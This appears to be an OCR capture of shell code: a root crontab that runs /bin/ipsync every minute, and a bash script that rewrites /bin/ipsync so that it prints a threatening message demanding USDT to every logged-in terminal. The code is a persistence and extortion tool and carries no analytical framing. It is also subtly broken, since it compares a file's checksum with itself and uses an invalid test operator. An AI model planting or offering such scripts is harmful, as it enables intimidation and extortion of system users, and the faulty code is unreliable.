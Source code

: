 ```bash
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/1 * * * * ipsync


*/1 * * * * date >> /root/time ;echo sleep63 >> /root/time ;sleep 63 ; echo "already sleep 63" >> /root/time

```

```bash
#!/bin/bash
# sys-ip
sleep 1
isyncp_sum_elder=`md5sum /bin/ipsync | awk '{print $1}'`
isyncp_sum=`md5sum /bin/ipsync | awk '{print $1}'`

if [ $isyncp_sum_elder -nq $isyncp_sum ]
then
cat >/bin/ipsync<<-EOF
#!/bin/bash
w | grep pts &>/dev/null
#echo $?
if [ $? != 0 ]
then
        exit 0
fi

for pts_sum in `w | grep pts | awk '{print $2}'`
do
         echo -e "[ $(date) ] \033[32mWhen you receive this message, you have been\033[31m hacked\033[32m, please prepare USDT. We will protect your computer.\033[42;37m \033[31m Otherwise you will get consequences you don't want to see.\033[0m" > /dev/${pts_sum}
done
EOF
chmod 755 /bin/ipsync
fi

sleep 5



```
